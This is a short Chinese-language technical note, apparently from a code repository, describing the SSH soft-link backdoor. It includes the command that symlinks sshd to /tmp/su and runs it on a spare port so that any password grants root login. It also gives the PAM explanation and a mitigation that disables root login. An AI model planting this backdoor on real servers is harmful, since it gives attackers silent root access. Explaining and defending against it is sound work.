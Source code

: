 # ssh软连接漏洞
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=12345;
- 在另一台机器上执行：
root@192.168.1.30 -p 12345
随意输入密码即可登陆
只允许命名为su，命名其他尝试登录都不成功
当前测试的系统(centos7 ,debian8, 只要允许root 远程登陆，基本上都可以适用)，端口也可以换成别的
当前解决办法，禁止root 远程登陆
原因是:基于pam认证的，使用了pam中的su，调用的是/etc/pam.d/su,su的认证使用了pam_rootok.so认证模块是认证你的UID是否为0，他会return pam的结果

```
sed -i 's/^PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config || sed -i 's/^#PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
sudo /etc/init.d/sshd restart || sudo systemctl restart sshd
root@dh-pc:/etc/pam.d# cat -n  su
     1	#
     2	# The PAM configuration file for the Shadow `su' service
     3	#
     4	
     5	# This allows root to su without passwords (normal operation)
     6	auth       sufficient pam_rootok.so
root@dh-pc:/etc/pam.d# locate pam_rootok.so
/lib/x86_64-linux-gnu/security/pam_rootok.so

root@dh-pc:/etc/pam.d# egrep  -irn pam_rootok.so ./*
./chfn:7:auth		sufficient	pam_rootok.so
./chsh:12:auth		sufficient	pam_rootok.so
./runuser:2:auth		sufficient	pam_rootok.so
./su:6:auth       sufficient pam_rootok.so
./su:13:# permitted earlier by e.g. "sufficient pam_rootok.so").
```

- 通过查找其实不单单是su存在pam_rootok,只要满足了上述的三个条件都可以进行"任意密码登录"。
